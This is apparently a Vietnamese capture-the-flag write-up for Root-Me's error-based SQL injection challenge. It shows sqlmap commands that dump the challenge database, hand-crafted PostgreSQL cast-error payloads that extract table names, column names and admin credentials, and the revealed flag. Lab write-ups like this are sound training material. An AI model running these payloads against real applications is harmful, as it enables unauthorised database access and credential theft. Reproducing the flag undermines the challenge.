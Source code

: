 # SQL-Error

**Point: 40**

**Exploiting SQL error**

**Statement: Retrieve administrator’s password.**

**Related ressources:**

[Khai thác Error based SQL injection](https://whitehat.vn/threads/sql-injection-khai-thac-error-based-sql-injection.5664/)

[Error Based Injection](https://sqlwiki.netspi.com/injectionTypes/errorBased/#postgresql)

[SQL Payload List](https://github.com/payloadbox/sql-injection-payload-list)

[Information schema](https://www.postgresql.org/docs/9.1/information-schema.html#:~:text=The%20information%20schema%20consists%20of,defined%20in%20the%20current%20database.&text=Some%20other%20views%20have%20similar,%2C%20constraint_column_usage%2C%20constraint_table_usage%2C%20table_constraints)

# Overview:

![image](https://user-images.githubusercontent.com/115911041/234256771-e502129c-1539-482d-b6e4-db8d0932b92a.png)

Form của challenge. Lần này challenge cung cấp cho ta 2 mục `Authentication` và `Contents`. Ban đầu thấy mục `Authentication` có chức năng Login, mình đã thử fuzz nhưng kết quả cho ra là `login failed`. Mình chuyển sang mục `Contents`

![image](https://user-images.githubusercontent.com/115911041/234257979-f60dad57-c246-40dc-9e5a-94aa89169ae0.png)

Nhận thấy URL có thay đổi. Thấy xuất hiện `order` và `ASC`, nghĩa là ở đây đang sử dụng lệnh `order by` và `ASC` là sắp sếp theo thứ tự tăng dần. Mình sẽ thử fuzz 

![image](https://user-images.githubusercontent.com/115911041/234265663-6536c738-9b3c-4d26-af47-322c912aad32.png)

Ban đầu là thêm dấu nháy `'` thì có lỗi báo giống như dự đoán là  đang sử dụng `order by` theo cột page và `ERROR: syntax error at or near "''"` nghĩa là database đang chạy là PostgreSQL.

Vậy đối với challenge này ta dùng Error-Based Blind SQL Injection. Phương thức này là cơ bản là một phương thức mà câu truy vấn của mình sẽ khiến server trả về thông báo lỗi, từ thông báo lỗi đó có thể chứa nội dung truy vấn hoặc các thông tin của cơ sở dữ liệu để chúng ta có thể khai thác xa hơn.

Đối với PostgreSQL thì chỉ có 1 lỗi ta có thể khai thác SQL injection - `đổi kiểu dữ liệu từ dạng chuỗi sang dạng số`- `INT`. Ta có 2 hàm sử dụng là `Cast()` và `Convert`
đối với PostgreSQL thì ta sử dụng `Cast()`

Một cách khác nữa là ta sử dụng SQL map

# Solution:

# Cách 1:

Sử dụng câu lệnh sau

`python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" --dbs` 

![image](https://user-images.githubusercontent.com/115911041/234262375-2723de88-19fb-49fc-a8b6-a86762c871dd.png)

Kết quả trả về cho ta thấy bài này xuất hiện 2 cách khai thác sqli bao gồm khai khác blind và error. Có 3 database trả về, tuy nhiên ta chỉ cần chú ý đến database public là được. Thực hiện lấy các tables trên database này

`python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public --tables`

`-D public` là lấy kết quả trong `database public` còn `--tables` sử dụng để lấy tên các bảng.

![image](https://user-images.githubusercontent.com/115911041/234263135-d1a7ceb6-2218-4a4e-95de-126a678f2f07.png)


Kết quả cho ra table là  `m3mbr35t4bl3`. Thực hiện lấy data trong table

`python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public -T m3mbr35t4bl3 --dump`

`-T` là bảng cần lấy data, `--dump` lầy toàn bộ dữ liệu.

![image](https://user-images.githubusercontent.com/115911041/234263711-6ac5cf8d-5db7-4525-a3ed-1784cb72e91b.png)

Kết quả cho ra 1 hàng dữ liệu của admin `Flag: 1a2BdKT5DIx3qxQN3UaC`

# Cách 2:

Ta nhớ lại là với mỗi câu truy vấn lỗi thì ta đều sẽ nhận được thông báo lỗi từ server. Và trong tài liệu mình đọc thì có một cách để khai thác lỗi này đó và dựa vào những câu lệnh ép kiểu.

Ép kiểu trong sql thì cũng giống như ép kiểu trong lập trình vậy. Nó sẽ chuyển kiểu dữ liệu của một biến hay một giá trị từ kiểu này sang kiểu khác. Nhưng mà hai kiểu này phải tương đồng với nhau. Ví dụ như từ int sang float , float sang int, … chứ không thể chuyển từ string mà chuyển qua int hay float được.

Những payload hay tên của table mình có tham khảo ở mục số (2) và (3) mà mình đã cung cấp ở `related resources`.

Bây giờ ta sẽ chèn payload như sau

`,cast(chr(126)||(select+table_name+from+information_schema.tables+limit+1,1)||chr(126)+as+numeric)--`

![image](https://user-images.githubusercontent.com/115911041/234294290-692d4acd-8d04-40dd-a01e-c6931c26ef59.png)

Nó gợi ý mình sài LIMIT kèm với OFFSET mới được.Mình sẽ thử `limit 1 offset 0`

`,cast(chr(126)||((select+table_name+from information_schema.tables+limit+1+offset+0)||chr(126))+as+numeric)--`

![image](https://user-images.githubusercontent.com/115911041/234301011-642de513-135b-4063-9aba-255799657659.png)

Bây giờ ta sẽ khai thác tên cột bằng cách chèn payload

`,cast(chr(126)||((select+column_name+from+information_schema.columns+limit+1+offset+0)||chr(126))+as+numeric)--`

![image](https://user-images.githubusercontent.com/115911041/234286649-cc9bba23-05fa-4f0c-a07e-dbc78ecb4760.png)

Mình để offset là 0 thì có result là `id`. Tiếp theo dùng Burp Intruder để cho off set chạy

![image](https://user-images.githubusercontent.com/115911041/234287538-dceda6c1-2290-4657-a653-f00c8e725251.png)

![image](https://user-images.githubusercontent.com/115911041/234288018-5cb4fd01-7a5e-4193-9bd6-8b915a791d4f.png)

May là offset ở vị trí 1 và 2 `us3rn4m3_c0l` và `p455w0rd_c0l`.Bây giờ mình sẽ khai thác dữ liệu của 2 cột

`,cast(chr(126)||(select us3rn4m3_c0l from m3mbr35t4bl3 limit 1 offset 0) as numeric)–-`

`,cast(chr(126)||(select p455w0rd_c0l from m3mbr35t4bl3 limit 1 offset 0) as numeric)--`

![image](https://user-images.githubusercontent.com/115911041/234288968-48b0f50d-5b60-43f4-a1cd-076c9315b625.png)





